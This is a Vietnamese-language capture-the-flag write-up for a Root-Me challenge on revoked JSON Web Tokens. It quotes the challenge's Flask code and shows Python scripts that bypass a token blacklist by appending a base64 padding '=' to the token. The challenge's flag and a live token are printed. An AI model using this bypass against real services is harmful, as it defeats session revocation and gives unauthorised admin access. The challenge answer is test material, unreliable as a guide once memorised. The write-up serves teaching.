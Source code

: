# JWT - Revoked token

## Discription 

Two endpoints are available :

- POST : /web-serveur/ch63/login
- GET : /web-serveur/ch63/admin

Get an access to the admin endpoint.

## Solution

Bài cho source code nên việc đầu tiên cần làm sẽ là đi mổ sẻ cái này .

```
def login():
    try:
        username = request.json.get('username', None)
        password = request.json.get('password', None)
    except:
        return jsonify({"msg":"""Bad request. Submit your login / pass as {"username":"admin","password":"admin"}"""}), 400
 
    if username != 'admin' or password != 'admin':
        return jsonify({"msg": "Bad username or password"}), 401
 
    access_token = create_access_token(identity=username,expires_delta=datetime.timedelta(minutes=3))
    ret = {
        'access_token': access_token,
    }
   
    with lock:
        blacklist.add(access_token)
 
    return jsonify(ret), 200
```

Đầu tiên login() , hàm này làm nhiệm vụ tạo cho ta một cái token có thời hạn 3 phút để xác thực và cụ thể ở đây ta cần gửi một user = admin và pass = admin . Sẽ chẳng có gì đáng nói nếu hàm này ko thực hiện thêm một công việc đó là thêm cái token này vào blacklist .  

```
def delete_expired_tokens():
    with lock:
        to_remove = set()
        global blacklist
        for access_token in blacklist:
            try:
                jwt.decode(access_token, app.config['JWT_SECRET_KEY'],algorithm='HS256')
            except:
                to_remove.add(access_token)
       
        blacklist = blacklist.difference(to_remove)
```

Hiểu đơn giản đây là một hàm dùng để xóa những token hết hạn và nó sẽ được gọi sau mỗi 10s .

```
def protected():
    access_token = request.headers.get("Authorization").split()[1]
    with lock:
        if access_token in blacklist:
            return jsonify({"msg":"Token is revoked"})
        else:
            return jsonify({'Congratzzzz!!!_flag:': FLAG})
```

Hàm này sẽ kiểm tra token có trong blacklist hay ko nếu không thì nó sẽ đưa flag cho ta . 

Nhận định ban đầu để pass thì ta cần có một token ko có trong blacklist nhưng ngay từ khi được tạo thì token đã được thêm vào blacklist và chỉ đc xóa đi khi hết hạn khi ấy thì nó lại không còn hợp lệ nữa khá khó khăn để giải quyết vấn đề này .

Tuy nhiên có một lối thoát đó là:
+ Tất cả các phần của JWT đều được encode base64 .
+ Base64 có một đặc trưng đó là trong quá trình mã hóa sẽ xảy ra một số trường hợp thừa thiếu bit để giải quyết vấn đề này người ta tạo ra phần đệm *=* để xác định chiều dài mã hóa và ko làm ảnh hưởng đến việc mã hóa .(https://en.wikipedia.org/wiki/Base64). Thực ra mk cũng chưa hiểu lắm cơ mà đại loại là ta có thể thêm dấu *=* vào cuối chuỗi base64 mà ko làm thay đổi nó.
Từ hai điều trên chúng ta chỉ cần thêm đấu bằng vào cuối token nhận đc từ enpoint /login là bypass thành công.

Trước tiên là code python tạo client request với post lấy token (lưu ý là phải có "Content-Type": "application/json" ):

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/login"

header = {"Content-Type": "application/json"}
data = '{"username":"admin","password":"admin"}'

res = requests.post(url, data=data, headers=header)

print(res.text) 
```

> {"access_token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0"}

Tiếp theo là sửa token (add =) và gửi lên endpont /admin .

```
import requests

url = "http://challenge01.root-me.org/web-serveur/ch63/admin"

header = {"Content-Type": "application/json","Authorization": "Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2MjQ0NDIyMDgsIm5iZiI6MTYyNDQ0MjIwOCwianRpIjoiYTc5MjFlZTctNjZlNy00MjVkLWFjYjYtMWUwOGE4N2EwNjQ3IiwiZXhwIjoxNjI0NDQyMzg4LCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.0cwbnn0fuutn09i2THwujzZ_YsV1HKQQsWGH3UeUFh0="}

res = requests.get(url,headers=header)

print(res.text)

```

## Flag

 {"Congratzzzz!!!_flag:":"Do_n0t_r3v0ke_3nc0d3dTokenz_Mam3ne-Us3_th3_JTI_f1eld"}


